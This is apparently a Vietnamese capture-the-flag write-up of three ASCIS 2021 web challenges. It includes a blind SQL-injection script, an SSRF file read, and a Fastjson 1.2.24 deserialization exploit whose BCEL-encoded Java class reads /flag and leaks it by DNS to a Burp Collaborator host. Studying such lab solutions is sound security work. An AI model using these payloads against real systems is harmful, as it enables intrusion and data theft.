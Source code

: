 # ============= ASCIS 2021 - Quals =============  
<hr />  
  
## 1. script kiddie - 100pts  
  
Như mô tả ta có thể biết rằng web có chứa lỗ hổng SQL-injection với cơ sở dữ liệu được dùng ở đây là MSSQL.  
Câu query như sau: ` SELECT * FROM ... ORDER BY $sort ASC`  
Giá trị của biến `$sort` ta có thể control thông qua param `?sort=`  
Payload: `(case when (ascii(substring(db_name(),{index},1))={ord(c)}) then 1 else 1/db_name() end )`  
  
```python3  
import requests
from string import printable


url = 'http://167.172.85.253/web100/'
r = requests.Session()
db = ''
index = len(db) + 1

while True:
	for c in printable:
		#print("testing for " + c)
		payload = f'(case when (ascii(substring(db_name(),{index},1))={ord(c)}) then 1 else 1/db_name() end)'
		resp = r.get(url + '?sort=' + payload)
		if "Error" not in resp.text:
			db += c
			index += 1
			print(f"Length: {len(db)} - DB_NAME: {db}")
			break  
```  
![image](https://user-images.githubusercontent.com/44127534/137701975-53123d34-8aa2-4aa5-a045-d4bb27ac934d.png)  
> Flag: `ASICS{ssalchtiwesmihcueymorf}`  

## 2. OProxy - 400pts
  
Challege là một trang web có chức năng cho người dùng nhập vào một url và server trả về nội dung của trang web đó.  
![1](https://user-images.githubusercontent.com/44127534/137702153-809ef500-a4e6-49fa-b83e-4df111c5c777.png)
  
Dự đoán đây có thể tác giả ra thử thách ssrf. Fuzz các payload ssrf thì thấy được:  
![2](https://user-images.githubusercontent.com/44127534/137702202-a82f0e56-e27d-4629-a829-de987f526274.png)
  
Để ý server respose header Werkzeug/1.01 Python/3.10.0, có thể dự đoán được back-end có thể là flask, và có thể challenge được dựng trên docker, thử nhập url: file://127.0.0.1/app/main.py thì có được mã nguồn:  
  
![3](https://user-images.githubusercontent.com/44127534/137702301-c120d7c0-0606-44ab-8ab1-590538b0dd33.png)
  
Tới đây thì thử đọc file flag:  
![4](https://user-images.githubusercontent.com/44127534/137702338-414b7486-4fa5-4cf3-8864-4121a2d92ccc.png)
  
> Flag: `ASCIS{SSRF_M3mcached_inj3cti0n}`  

## 3. isolate - 475 pts  
  
Ở challenge này, đề bài có cung cấp cho ta source, cụ thể là có file `isolate.war` nên ta tiến hành giải nén và đọc các file `.class` bằng Intellij  
Phần xử lý chính nằm ở class `ISOServlet` có nội dung sau:  
![image](https://user-images.githubusercontent.com/44127534/137703459-7a027fbc-e3f4-4124-8c4a-09e50958d11e.png)
  
Server đọc chuỗi json qua `request.getInputStream()` và chặn những chuỗi json có chứa chuỗi `@type`, nếu mọi thứ ok thì sẽ đi qua hàm `JSON.parse(jsonData)`.  
Ở đây challenge sử dụng `Fastjson` phiên bản `1.2.24`  
![image](https://user-images.githubusercontent.com/44127534/137703786-2f6e1b65-3b82-46e0-9a5b-135325fe2989.png)  
    
Sau khi tìm google về `fastjson 1.2.24` thì thấy có khá nhiều bài nói về cách khai mà chủ yếu thông qua `autoType` do `fastjson` hỗ trợ được biểu diễn qua key là `@type`. Vì fastjson hỗ trợ việc sử dụng `autoType` này để khởi tạo một lớp cụ thể và gọi các phương thức set/get để truy cập các thuộc tính.  
  
Mà `@type` đã bị chặn bởi server vì do server lấy input dưới dạng stream nên ta có thể bypass dễ dàng qua unicode encode (cụ thể là `@\u0074ype`)  
Sau khi được BTC hint `BCEL / DBCP` thì team đã nhanh chóng google tìm được một [bài post](http://blog.nsfocus.net/fastjson-basicdatasource-attack-chain-0521/) về nó và kết hợp với [bài github](https://github.com/depycode/fastjson-local-echo) là đủ dữ kiện để khai thác.  
  
![image](https://user-images.githubusercontent.com/44127534/137706394-c7bffeb2-b16c-410a-995c-3f4f7ba94f9c.png)
  
Payload:  
```json
{
    {
        "@\u0074ype": "com.alibaba.fastjson.JSONObject",
        "x":{
                "@\u0074ype": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@\u0074ype": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "<class dump>"
        }
    }: "x"
}
```  
Trong đó, `<class dump>` là các file `.class` đã được encode dạng `BCELEncode`. Ý tưởng đọc flag ở `/flag` sau đó encode dưới dạng `hex` sau đó dùng `Burp collaborator client` để lắng nghe DNS lookup và lấy flag.  
  
```java
import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
import javax.script.ScriptException;
import java.io.DataInputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLConnection;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Dummy {
    static {
        try {
            getFlag();
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
    private static final char[] HEX_ARRAY = "0123456789ABCDEF".toCharArray();

    public static String byteArrayToHex(byte[] a) {
        StringBuilder sb = new StringBuilder(a.length * 2);
        for(byte b: a)
            sb.append(String.format("%02x", b));
        return sb.toString();
    }

    public static void leakFlag(String c) throws MalformedURLException {
        URL yahoo = new URL("http://"+c+".648yq47p874in51d8874eiy2vt1jp8.burpcollaborator.net");
        yahoo.hashCode();
    }

    public static void getFlag() throws Exception {
        try {
            byte[] dt = Files.readAllBytes(Paths.get("/flag"));
            leakFlag(byteArrayToHex(dt));

        } catch (MalformedURLException me) {
            System.out.println("MalformedURLException: " + me);
        } catch (IOException ioe) {
            System.out.println("IOException: " + ioe);
        }

    }

    public static void main(String[] args) {
        try {
            getFlag();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```  
Command:  
```bash  
> $ javac Dummy.java
> $ java BCELEncode Dummy.class
```   
  
Final payload:  
```json
{
    {
        "@\u0074ype": "com.alibaba.fastjson.JSONObject",
        "x":{
                "@\u0074ype": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@\u0074ype": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$85U$dbV$dbF$U$dd$c26$SB$5cb$cc$r4$Q$924$d48$80$81$98K0$a55$E$g$8a$J$J$90$QJ$daT$b6$F6$91$zG$c8$U$f7$f6$d4$d5$P$e9$L$7d$y$edZ$e0$d5$ac$e4$D$fa$L$fd$91$3e5$dd$ps$c7Y$7d$f0$cc$e8$cc$cc$3e$fb$ec$d93$fe$eb$df$3f$df$C$88$e0G$V$3eDeL$a8$a8$c2$c7$K$se$7c$a2$e2S$c4T$5c$c1$94$IN$8b$e6$be$8c$Z$d1G$V$cc$w$f8L$85$8a$H$a2$99S$f0$b9$8cy$Vq$y$a8x$88E$V$b7$f0H4$8fe$y$d5$60$Z$x$K$9e$88$9dOU$ac$e2$99$8c5$F_$88$f9u$Z$cfUt$e2K$F_$89$5c$_j$Y$fcZ$86$$$a1$e6$c1$cc$b3$X$b1$a5$a5$d8$9a$84$aa$f5i$J$d5$T$99$5c$c6$99$94$e0$J$f6$3c$95$e0$9d$b6R$86$84$86x$sg$3c$yd$T$86$bd$a2$tLF$ea$TE$c7$88$d9$b6$5e$5c$b1$k$Y$bb$SZ$82$ebS$3d$f1$z$7dG$P$9bzn3$bc$ec$d8$99$dcfTB$dd$b2$a3$t_$$$e8yw$a7$8c$E$V$90$a0$98$86$fer$d6$d47$r4$H$_o$T$b9$d5$99$dd$a4$91w2Vn$5b$82$bci8b9Kea$q$96$d5397k$a5$cd$y$98$v$s$92$e6Q1$ea$b2U$b0$93$c6lFPW$ef$X$b2$d9b$bf$d8$a6$a1$h$lIh$bd$I1U$c8$98$v$c3$W$d3I$e6$ba$3d0$c4$K$hOW$z$s$b6$8c$a4$p$p$a5$c1$c0$86$86M$a45d$b0$a5$e1$rL$J$9a$bb2g8$e1$tKqrO$3bN$7e$3c$i$96$Q$e9$l$89$8c$V_EF$f3c$a3$91Lnx05$c6$81$91$v$O$ed8$83$5b$f9$b1$feD$c1$ce$t$z$d3$d4$T$96$ad$3b$96$ddO$Q$c1b$40C$W$ac$d7$X$dep5k$bc$c8X$86$a5$n$8fW2$c8z$h$dc$U$c2$j$Na$MH$e8$3c$a1$b3$a0$9b$h$96$9d5R$e4u$a2$ae$8c$82$86$j$7cC$j$w$ce$8fw$89$dave$U5$7c$x$f0$9a$5c$bc$8c$V$9e$5b$3cY$c4s$3e$f3$r$b6$M$Je$9bNy$9eLj$f8NL5$O$M$O$dd$8d$M$8f$8c$8e$dd$8bMM$df$9f$99$d5$f0$3d$7e$d0$f0$nn$b3N$f7$8c$84$t$a7$a8$7fpN$f8$a1$fe$Uk$8a$e6$a3$ae$3b$baY0$W7$98$sx$ce$7bb$9a$ce$ab$W$b5$e8$8e$84$7b$V$iv$d67$e5$e3$8cV$b4o$b5$9e$cf$h$b9$94$84$beJ6$bd$U$3ar$O7$w$8eU$OI$I$E$xB$xi$7d$3b$5d$be$60$bcms$c7j$e5$a8$ec$G$9d$g$7e$a4$3biZ$dfC$ebK$88$feO$N$e7$Z$9d$c3$88$5eB$W$X$81$c8$9am$e8$a9$98i$K$bd$f8$d9$W$ac$b4$b9G$i$c1Y$bf$V$b7$j$pKZV$81$b4$9a$e3$c7fx$c4$fc$OY$Yz6zA$ad$f7$ea$7b$aaVS$F$Y$9ep$5e$7c$99tWC$be$i$e7S$b2b$ebIJV$ebX$d3i$ddv$df$m$e1$91$9e$f5i$dc$e0$c3$e6$e3c$x$a1$5d$f8$88$a3j$8ey$c7$d9$G$f9$d5$c1$5eb$ef$L$jB$daw$X$f6$i$z$C$eaQ$p$$$cd$d1$d2$9f$Z$adf$l$7b$8d$aa$b5$d0$5b_$fa$Q$9exh$a1$f7$ed$a4g$c4$db$ec$ed$f8$F$b7$7b$9b$bdwG$7cw$fc$5e$ef$h$f8$d6$3c$cd$be$S$aa$97K$90$P$a0$ac$fe$e4$95$f6$de$fd$7d$e7$A5$bf$R$a4$caM$d3$e2rk$87$86$P$d0$85k$Ya$3fAN$bd$8c$b6$a2$ea$j$C$f0$c9$e8$93$d1$cfV$o$a5$7fH$bcF$dca$C$IN$b3$f0r$Et$bf$86$ba$sx$j$a2$d6$af1$5d$88$3f$7f$j$h$e6$3bD$7d$9cy$hVO$eb$ab$87$87$ed$N$s$bdIQna$90_$5e$ce$b5$Q$9d$d7$f4$I$fdW$ae$S$3a$y$fa$h$3dop$a5$E$7f$JM$f3$a1$S$C$r4$efa$7c$few$b4$k$tm$x$t$bd$ca$7c$Hh$dfC$c7$d9$c9k$e7$s$f7$5d$ca$BV$d8$e2$f6$RV$5d$d6$a3$9b$e9$c1$f4uL$l$40$3fW$84$d0$c6$D$Y$e48BU$86$d1$c7$ff$b9$BW$9fZxVe$dc$7d$$$pr$f5$84$7f$t$B$86$vc$f9$c4$e6$d8$8bTZ$J$j$7bP$84$I$d7$f7$dd$8a$3c$3c$c9$ces$87$Qal$94$d1a$c8$dc_$8b17$89$8c$aaY$Z$a3$5e$u$M$i$7b$e6$f1$91g$Ce$d8yVv$dd$dfu$80$h$7f$e0$e6$fb$e0$af0$W$60$d4O$c8$s$c2$b7$9e$87$e7$8b$e4$9ab$fc$3fag$V$f2$i$I$A$A"
        }
    }: "x"
}
```     
![image](https://user-images.githubusercontent.com/44127534/137708160-5ce7139e-c0a2-402b-aed4-c3d44ae1e332.png)
  
![image](https://user-images.githubusercontent.com/44127534/137708257-373db6d0-4b61-4248-ac62-227c89dd9934.png)
    
> Flag: `ASCIS{howaboutw/oDNS?:>}`    
